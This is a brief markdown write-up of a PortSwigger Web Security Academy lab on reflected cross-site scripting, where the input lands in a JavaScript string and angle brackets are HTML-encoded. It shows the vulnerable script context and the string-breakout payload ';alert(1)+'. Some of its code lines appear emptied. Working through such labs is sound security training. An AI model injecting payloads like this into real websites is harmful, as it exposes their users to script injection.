




# Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

URL: https://0a44000704aa0f638425916f00730048.web-security-academy.net/


## Testing fields:





## Preparation:



We have to escape:

```js
var searchTerms = 'AAAAAAAAAAA';
document.write('');
```

We need a payload that turns the query to:

```js
document.write('');
```

## Exploitation:

Payload:
```
';alert(1)+'
```

